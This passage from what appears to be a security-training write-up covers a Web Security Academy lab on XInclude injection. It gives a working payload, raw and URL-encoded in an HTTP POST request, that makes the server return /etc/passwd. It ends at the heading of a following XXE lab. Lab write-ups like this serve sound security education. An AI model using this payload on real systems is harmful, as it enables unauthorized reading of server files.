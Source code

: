 ### 📬 Initial Request

![image](https://github.com/user-attachments/assets/4daca3af-8ebd-48b9-9a69-e5212ccaa6a2)

>  Usually if an API accepts JSON data, then most probably it will also accept xml data too. We can change the content type by using `content-type-converter`

> ![image](https://github.com/user-attachments/assets/bf2cc6e4-8eab-417c-87fe-7dcf00096993)



In this lab sending JSON data didn't work.

We will used below payload:

```xml
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
````

To inject this payload into a **specific parameter** (e.g., `productId`), URL-encode the XML and send it in the body:

```http
POST /product/stock HTTP/2
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
...

productId=%3Cfoo+xmlns%3Axi%3D%22http%3A//www.w3.org/2001/XInclude%22%3E%3Cxi%3Ainclude+parse%3D%22text%22+href%3D%22file%3A///etc/passwd%22/%3E%3C/foo%3E&storeId=1
```
![image](https://github.com/user-attachments/assets/c33319fe-db5f-4c3e-8dfe-daf88d2d059e)

![image](https://github.com/user-attachments/assets/2f72dd4d-771b-4323-80ab-a420c4e68678)

---

### ✅ Lab Success Criteria

* You **do not control the full XML structure** but can inject inside a tag or attribute.
* The server uses an XML parser that supports **XInclude processing**.
* Submitting the payload should cause the application to **return the contents** of the target file (`/etc/passwd`).

---

> 🔐 XInclude attacks depend heavily on the **parser configuration**. Many secure parsers disable XInclude by default.


---

### LAB 8 - Exploiting XXE via image file upload

### Lab Description
![image](https://github.com/user-attachments/assets/3c2d03d6-fc39-4afa-9709-0608d033c2e7)
